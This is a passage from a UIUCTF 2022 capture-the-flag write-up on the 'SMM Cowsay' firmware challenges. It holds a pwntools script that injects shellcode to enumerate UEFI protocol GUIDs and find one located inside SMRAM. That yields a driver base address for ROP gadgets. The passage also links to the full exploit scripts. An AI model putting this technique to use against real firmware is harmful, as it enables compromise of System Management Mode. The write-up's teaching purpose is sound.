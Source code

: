 ```
CPU[000]  APIC ID=0000  SMBASE=07FAF000  SaveState=07FBEC00  Size=00000400
```

Now, using the same code we used for both the previous challenges, we can check
every single protocol GUID listed in `MdePkg/MdePkg.dec` and see if the address
returned is after SMBASE:

```python
with open('debug.log') as f:
    for line in f:
        if line.startswith('CPU[000]  APIC ID=0000  SMBASE='):
            smbase = int(line[31:31 + 8], 16)

# Manually or programmatically extract GUIDs from MdePkg/MdePkg.dec

for guid in guids:
    code = asm(f'''
        /* LocateProtocol(&guid, NULL, &protocol) */
        lea rcx, qword ptr [rip + guid]
        xor rdx, rdx
        lea r8, qword ptr [rip + protocol]
        mov rax, {LocateProtocol}
        call rax

        test rax, rax
        jnz fail

        mov rax, qword ptr [rip + protocol]
        ret

    fail:
        ud2

    guid:
        .octa {guid}
    protocol:
    ''')
    conn.sendline(code.hex().encode() + b'\ndone')

    conn.recvuntil(b'RAX: 0x')
    proto = int(conn.recvn(16), 16)

    if proto > smbase:
        log.info('Interesting protocol: GUID = 0x%x, ADDR = 0x%x', guid, proto)
```

Surely enough, by letting the script run for enough time, we find that
`gEfiSmmConfigurationProtocolGuid` returns a pointer to a protocol at a nice
address. Looking at the `debug.log` for loaded drivers we can see that this
address is inside the `PiSmmCpuDxeSmm.efi` SMM driver, and a simple subtraction
gives us its base address.

### Finding ROP gadgets


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31